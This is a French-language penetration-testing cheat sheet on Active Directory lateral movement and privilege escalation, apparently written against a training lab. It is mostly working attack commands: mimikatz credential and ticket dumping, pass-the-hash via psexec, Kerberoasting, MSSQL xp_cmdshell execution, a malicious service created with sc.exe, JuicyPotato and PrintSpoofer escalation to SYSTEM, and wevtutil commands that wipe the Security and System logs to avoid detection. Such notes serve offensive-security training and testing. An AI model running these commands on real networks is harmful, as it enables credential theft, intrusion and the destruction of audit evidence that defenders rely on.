

La chaîne d'attaque pour le mouvement latéral et l'élévation de privilèges dans un environnement Active Directory suit généralement ce flux :



## Énumération des accès distants

L'utilisation de **BloodHound** et **PowerView** permet d'identifier les vecteurs d'accès distants autorisés pour les utilisateurs du domaine.

### BloodHound : Vérification des droits d'accès

| Accès | Relation BloodHound |
| :--- | :--- |
| **RDP** | `CanRDP` |
| **WinRM** | `CanPSRemote` |
| **SQLAdmin** | `SQLAdmin` |

**Recherche des accès RDP pour les Domain Users**
```cypher
MATCH p=(u:User)-[r:CanRDP]->(c:Computer) RETURN p
```

**Recherche des accès WinRM pour les Domain Users**
```cypher
MATCH p=(u:User)-[r:CanPSRemote]->(c:Computer) RETURN p
```

**Recherche des administrateurs MSSQL**
```cypher
MATCH p=(u:User)-[r:SQLAdmin]->(c:Computer) RETURN p
```

## Accès à distance via RDP

L'accès **RDP** est conditionné par l'appartenance de l'utilisateur au groupe local des utilisateurs du bureau à distance.

### Vérification des utilisateurs autorisés
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

### Connexion RDP
**Depuis Windows :**
```powershell
mstsc /v:IP_CIBLE
```

**Depuis Linux :**
```bash
xfreerdp /v:IP_CIBLE /u:UTILISATEUR /p:MOTDEPASSE
```

## Accès à distance via WinRM

Le protocole **WinRM** permet l'exécution de commandes PowerShell à distance.

### Vérification des utilisateurs autorisés
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

### Connexion WinRM
**Depuis Windows :**
```powershell
$password = ConvertTo-SecureString "MOTDEPASSE" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("DOMAINE\UTILISATEUR", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

**Depuis Linux avec evil-winrm :**
```bash
gem install evil-winrm
evil-winrm -i IP_CIBLE -u UTILISATEUR -p MOTDEPASSE
```

## Pass-the-Hash / Pass-the-Ticket

Ces techniques permettent de s'authentifier sans connaître le mot de passe en clair, en réutilisant les hashs NTLM ou les tickets Kerberos. Voir la note [Pass-the-Hash].

### Pass-the-Hash (PtH)
```bash
# Utilisation de impacket-psexec
python3 psexec.py DOMAINE/UTILISATEUR@IP_CIBLE -hashes :LMHASH:NTHASH
```

### Pass-the-Ticket (PtT)
```bash
# Exportation d'un ticket avec mimikatz
mimikatz # sekurlsa::tickets /export
# Injection du ticket
mimikatz # kerberos::ptt ticket.kirbi
```

## Kerberoasting / AS-REP Roasting

Ces attaques visent à extraire des hashs de services pour les casser hors-ligne. Voir la note [Kerberoasting].

### Kerberoasting
```powershell
# Extraction des tickets de service
Add-Type -AssemblyName System.IdentityModel
set-spn -q */*
Get-DomainUser -SPN | Get-DomainSPNTicket
```

### AS-REP Roasting
```powershell
# Recherche d'utilisateurs sans pré-authentification Kerberos requise
Get-DomainUser -PreauthNotRequired -Verbose
```

## Accès via MSSQL

L'exploitation de serveurs **MSSQL** peut mener à l'exécution de commandes système.

### Vérification des instances SQL
```powershell
cd .\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

### Connexion MSSQL
**Depuis Windows :**
```powershell
Get-SQLQuery -Verbose -Instance "IP_CIBLE,1433" -username "DOMAINE\UTILISATEUR" -password "MOTDEPASSE" -query 'SELECT @@version'
```

**Depuis Linux avec mssqlclient.py :**
```bash
pip install impacket
mssqlclient.py DOMAINE/UTILISATEUR@IP_CIBLE -windows-auth
```

> [!warning] Attention aux logs générés par l'activation de xp_cmdshell
> L'activation et l'utilisation de **xp_cmdshell** sont des événements hautement surveillés par les solutions EDR/SIEM.

## Exécution de commandes système via MSSQL

### Activation et exécution
```sql
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
SQL> xp_cmdshell "whoami"
SQL> xp_cmdshell "net user"
SQL> xp_cmdshell "ipconfig /all"
```

## Dumping de LSASS (Mimikatz/Pypykatz)

L'extraction des secrets en mémoire est une étape critique pour l'élévation et le mouvement latéral. Voir la note [Credential Dumping].

### Dumping via Mimikatz
```powershell
# Nécessite des privilèges SYSTEM
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

### Dumping via Pypykatz (à distance)
```bash
pypykatz live lsa --user UTILISATEUR --password MOTDEPASSE IP_CIBLE
```

## Utilisation de services (SCM) pour l'exécution

La création ou la modification de services permet d'exécuter du code avec les privilèges SYSTEM.

> [!danger] Absence de mise en garde sur la stabilité des services lors de l'exploitation
> La modification de services critiques peut entraîner un crash du système ou un déni de service.

```powershell
# Création d'un service malveillant
sc.exe create MalService binPath= "C:\temp\payload.exe" start= auto
sc.exe start MalService
```

## Exploitation de SeImpersonatePrivilege

L'élévation de privilèges vers **SYSTEM** est possible si le compte compromis possède le privilège **SeImpersonatePrivilege**.

> [!info] Nécessité de privilèges SeImpersonatePrivilege pour l'élévation SYSTEM
> Ce privilège permet à un processus d'emprunter l'identité d'un autre utilisateur, incluant **SYSTEM**, après une authentification locale.

> [!note] Le choix de l'outil d'élévation (JuicyPotato vs PrintSpoofer) dépend de la version de l'OS cible
> **PrintSpoofer** est généralement plus efficace sur les versions récentes de Windows Server.

### Exploitation
**JuicyPotato :**
```powershell
JuicyPotato.exe -t * -p cmd.exe -l 1337 -c "{CLSID}" -a "/c whoami"
```

**PrintSpoofer :**
```powershell
PrintSpoofer.exe -i -c cmd.exe
```

## Nettoyage des traces (Event logs)

Il est impératif de supprimer les traces d'exécution pour éviter la détection.

```powershell
# Effacement des journaux d'événements
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
```

## Itération et Pivoting

Après chaque accès, il est nécessaire de ré-énumérer l'environnement pour identifier de nouveaux vecteurs. Voir la note [Pivoting and Tunneling].

### Commandes d'itération
```powershell
qwinsta
net view \\IP_CIBLE
whoami /groups
```

**Recherche de comptes administrateurs via BloodHound :**
```cypher
MATCH (u:User)-[r:MemberOf]->(g:Group) WHERE g.name CONTAINS "Admin" RETURN u
```

> [!warning] Vérifier la politique de verrouillage des comptes avant toute attaque par force brute
> Une mauvaise configuration peut entraîner le verrouillage des comptes de service ou d'utilisateurs critiques.

Les techniques décrites ici s'inscrivent dans une méthodologie globale incluant l'**Active Directory Enumeration**, le **Pass-the-Hash**, le **Credential Dumping** et les techniques de **Pivoting and Tunneling**.